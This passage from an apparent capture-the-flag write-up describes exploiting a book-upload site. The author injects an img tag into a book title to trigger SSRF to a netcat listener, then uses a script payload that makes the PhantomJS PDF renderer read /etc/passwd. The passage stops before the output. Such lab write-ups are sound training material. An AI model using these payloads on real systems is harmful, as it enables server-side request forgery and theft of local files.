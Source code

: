 I then change my username to `<img src ="http://10.10.XX.XX">` and download the `.pdf` again. Sadly I did not get any request, probably because the name was truncated to probably 10 characters if you remember from registration validation code. Lets try to submit a book and use the `PDF` link for `Collections`.

This time, I put `<img src ="http://10.10.XX.XX">` as the Book Title, uploaded a random file and then download the `.pdf` file.

On my `nc`, I caught the raw web request:
{% highlight raw %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.176] 55942
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 10.10.XX.XX
{% endhighlight %}

`SSRF` was successful but what caught my eye was the `PhantomJS` in the User-Agent header. 

{% highlight raw %}
PhantomJS is a headless web browser scriptable with JavaScript. It runs on Windows, macOS, Linux, and FreeBSD.

Using QtWebKit as the back-end, it offers fast and native support for various web standards: DOM handling, CSS selector, JSON, Canvas, and SVG.

The following simple script for PhantomJS loads Google homepage, waits a bit, and then captures it to an image.
{% endhighlight %}

# Exploitation (1)

From this [link](https://coderwall.com/p/5vmo1g/use-phantomjs-to-create-pdfs-from-html), it states that `PhantomJS` has the function to create PDFs from HTML. Cool! To exploit this, I followed this [guide](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/) to read the `/etc/passwd` file.

Submitting the following as my Book Title:
{% highlight html %}
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script> 
{% endhighlight %}

Returns this `pdf`:
